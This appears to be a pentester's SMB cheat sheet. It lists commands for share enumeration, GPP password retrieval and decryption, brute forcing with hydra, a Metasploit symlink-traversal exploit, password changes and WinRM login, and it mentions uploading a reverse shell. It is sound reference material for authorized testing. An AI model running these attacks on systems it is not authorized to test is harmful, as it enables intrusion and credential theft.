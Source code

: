 # 139,445 (SMB)

## Enumeration

### smbmap

```bash
smbmap -H <IP>
smbmap -H <IP> -u anonymous
smbmap -H <IP> -u '' -p ''
smbmap -H <IP> -u 'guest' -p ''
smbmap -R <share> -H <IP>  # List out directories and their contents
# Look for things like Groups.xml for AD
smbmap -R <share> -H <IP> -A Groups.xml -q  # Attempt to download file
# Locate cpasword= in Groups.xml and decrypt it
gpp-decrypt <cpassword>
```

### smbclient

```bash
smbclient -L //<IP>  # List out available shares
smbclient -L //<IP>/ -U <username>
smbclient //<IP>/<SHARE>  # Connect to an available share

# Forcing Protol NT1
smbclient -L //<IP>/ --option='client min protocol=NT1'
smbclient //<IP>/<SHARE> --option='client min protocol=NT1'

```

#### Commands

```bash
dir /a
smb: \> mask "*"
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```

### crackmapexec

```bash
crackmapexec smb <IP>
crackmapexec smb <IP> 'guest' -p ''
crackmapexec smb <IP> --shares
crackmapexec smb <IP> --shares -u '' -p ''
crackmapexec smb <IP> --shares -u <username> -p <password>
crackmapexec smb <IP> --pass-pol
crackmapexec smb <IP> --users
crackmapexec smb <IP> -u 'a' -p '' --rid-brute

crackmapexec winrm <IP> --shares -u <username> -p <password>  # Tell us if we can get on the machine
# Look for Pwn3d!
evil-winrm -i <IP> -u <username> -p <password>
```

### rpcclient

```bash
rpcclient <IP>
rpcclient -U ''
<TAB> <TAB>  # Show options when connected
> enumdomusers
```

### nbtscan

```bash
nbtscan <IP>
```

### enum4linux

```bash
enum4linux <IP>
```

### samrdump

```bash
python3 /usr/share/doc/python3-impacket/examples/samrdump.py <IP>
```

### nmap

```bash
# /usr/share/nmap/scripts/smb*
nmap -p445 <IP> --script=smb-system-info
nmap -p445 <IP> --script=smb-enum*
nmap -p445 <IP> --script=smb-vuln*
```

### Metasploit

```bash
search smb
```

## Brute Force

```bash
nmap --script smb-brute -p 445 <IP>
ridenum.py <IP> 500 50000 /root/passwds.txt #Get usernames bruteforcing that rids and then try to bruteforce eachusernam
hydra -l Administrator -P /usr/share/seclists/Passwords/darkweb2017-top100.txt <IP> smb -V -f
hydra -L usernames.txt -P passwords.txt <IP> smb -V -f
```

## Exploitation Check

* [ ] Enumerate and download any interesting files ideally looking for credentials or other information relating to other services.
* [ ] Can you login via SMB and put files on the system?
  * [ ] If so, is there a web interface where you can access the files?
    * [ ] If so, then you may be able to upload a reverse shell.
  * [ ] If so, can you use Metasploit to create symbolic link to the root filesystem?

## Exploitation

### Metasploit

```bash
use auxiliary/admin/smb/samba_symlink_traversal
set rhost
set smbshare <SHARE>
exploit
```

Then back in `smbclient` we can `cd` into the `rootfs` that was created.

### SMB Password Change

```bash
# Attempt to change a users password through SMB
smbpasswd -U <username> -r <IP>
# Then can use crackmapexec to test login
cme smb <IP> -u <username> -p <password>
cme winrm <IP> -u <username> -p <password>
```

### SMB Drive Mapping

```bash
sudo mount -t cifs -o 'user=<username>,password=<password>' //IP/Share /mnt/dir
# Go into /mnt/dir to look for interesting files
```
